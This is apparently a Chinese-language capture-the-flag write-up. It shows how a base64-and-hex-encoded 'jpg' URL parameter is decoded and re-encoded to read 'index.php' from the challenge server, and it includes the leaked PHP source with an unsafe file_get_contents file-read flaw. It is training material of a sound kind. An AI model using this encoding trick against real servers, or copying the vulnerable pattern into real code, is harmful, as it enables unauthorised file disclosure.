 #### 滴~

这道题的误导很严重

进入题目

![](https://upload-images.jianshu.io/upload_images/11356161-d455776964a7a3ef.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

URL为`http://117.51.150.246/index.php?jpg=TmpZMlF6WXhOamN5UlRaQk56QTJOdz09`，将参数解码

```
>>> 'TmpZMlF6WXhOamN5UlRaQk56QTJOdz09'.decode('base64').decode('base64').decode('hex')
'flag.jpg'
```

存在文件读取，尝试读取页面源码

```
>>> 'index.php'.encode('hex')
'696e6465782e706870'
>>> _.encode('base64')
'Njk2ZTY0NjU3ODJlNzA2ODcw\n'
>>> _[:-1].encode('base64')
'TmprMlpUWTBOalUzT0RKbE56QTJPRGN3\n'
```

解码后获得页面源码

```php
<?php
/*
 * https://blog.csdn.net/FengBanLiuYun/article/details/80616607
 * Date: July 4,2018
 */
error_reporting(E_ALL || ~E_NOTICE);


header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=TmpZMlF6WXhOamN5UlRaQk56QTJOdz09');
$file = hex2bin(base64_decode(base64_decode($_GET['jpg'])));
echo '<title>'.$_GET['jpg'].'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
echo $file.'</br>';
$file = str_replace("config","!", $file);
echo $file.'</br>';
$txt = base64_encode(file_get_contents($file));

echo "<img src='data:image/gif;base64,".$txt."'></img>";
/*
 * Can you find the flag file?
 *
 */

?>

```
